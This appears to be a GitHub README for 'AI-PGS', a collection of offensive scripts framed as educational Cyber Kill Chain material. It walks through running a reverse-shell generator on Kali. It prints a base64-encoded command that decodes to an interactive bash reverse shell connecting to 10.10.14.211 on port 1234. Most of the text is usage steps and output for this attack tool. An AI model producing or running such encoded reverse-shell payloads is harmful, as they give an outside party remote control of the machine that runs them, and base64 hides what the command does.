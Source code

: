 # AI-PGS
# Focus on Cyber Kill Chain Framework for educational purposes. Harness AI to generate diverse, high-quality scripts from user prompts. Explore various genres with customizable parameters.

To use the scripts on this vault follow the instructions:

1 - Paste the code on your Command Line (CLI) and remove the text (.txt) extension:
    ┌──(kali㉿kali)-[~]
    └─$ view BASE64-Reserse-Shell-Prompter.py
2 - Provide Execution (+x) permissions:
    ┌──(kali㉿kali)-[~]
    └─$ chmod +x BASE64-Reserse-Shell-Prompter.py
3 - Use the script:
    ┌──(kali㉿kali)-[~]
    └─$ python BASE64-Reserse-Shell-Prompter.py 10.10.14.211 1234
    
Base64-encoded Bash shell session command:
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTEvMTIzNCAwPiYx

The following methods can discover the usage:
- Analyze the source code:
    ┌──(kali㉿kali)-[~]
    └─$ less BASE64-Reserse-Shell-Prompter.py

- Check if a usage prompt is available:
    └─$ python BASE64-Reserse-Shell-Prompter.py 
Usage: python script.py <ip_address> <port>
